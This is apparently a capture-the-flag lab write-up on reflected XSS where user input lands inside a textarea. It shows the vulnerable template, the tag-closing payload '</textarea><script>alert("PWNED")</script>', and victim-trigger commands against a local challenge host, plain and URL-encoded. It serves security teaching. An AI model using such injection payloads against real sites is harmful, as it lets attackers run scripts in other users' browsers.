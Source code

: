 # Reflected XSS - Textarea Context Escape

## Challenge Summary
This level explores **contextual XSS**, where our payload is rendered *inside a `<textarea>` element*. By default, browsers treat content in a textarea as plain text, so scripts won't execute unless we **break out** of that context.

The goal is to execute `alert("PWNED")` in the victim's browser.

## Vulnerable Code
The server inserts user-controlled input directly inside a `<textarea>`:

```html
<textarea name=msg>{user_input}</textarea>
````

## Exploitation Logic

To break out of the `textarea`:

1. Inject `</textarea>` to end the tag.
2. Follow it with a `<script>` tag containing our payload.

### Payload:

```html
</textarea><script>alert("PWNED")</script>
```

## Execution

Trigger the victim script with:

```bash
/challenge/victim 'http://challenge.localhost:80/?msg=</textarea><script>alert("PWNED")</script>'
```

Or URL-encoded:

```bash
/challenge/victim 'http://challenge.localhost:80/?msg=%3C%2Ftextarea%3E%3Cscript%3Ealert(%22PWNED%22)%3C%2Fscript%3E'
```

## Result

The victim browser will interpret and run the injected JavaScript, showing the alert and granting the flag.

```